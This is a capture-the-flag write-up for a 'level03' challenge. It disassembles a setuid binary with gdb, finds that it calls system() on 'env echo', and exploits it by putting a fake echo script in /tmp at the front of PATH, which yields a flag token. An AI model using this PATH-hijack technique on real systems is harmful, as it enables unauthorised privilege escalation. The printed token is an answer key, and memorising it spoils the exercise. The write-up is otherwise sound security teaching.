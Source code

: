 # First Search

```
$ id
uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)

$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

$ ./level03
Exploit me
```

# how to exploit this executable file

## use gdb to show code in asm

```
$ gdb level03

(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret    
End of assembler dump.

(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```
# Notes

there is a systemcall with argument : "/usr/bin/env echo Exploit me"

so we can modify the env var PATH to execute getflag as a wrong echo command

# Solution

## First, create a false echo command

```
$ echo "/bin/sh -c 'getflag'" > /tmp/echo
$ chmod 755 /tmp/echo
```

## Modify the path while adding false echo command at the beginning

```$ export PATH=/tmp:$PATH```

## Then 

```
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
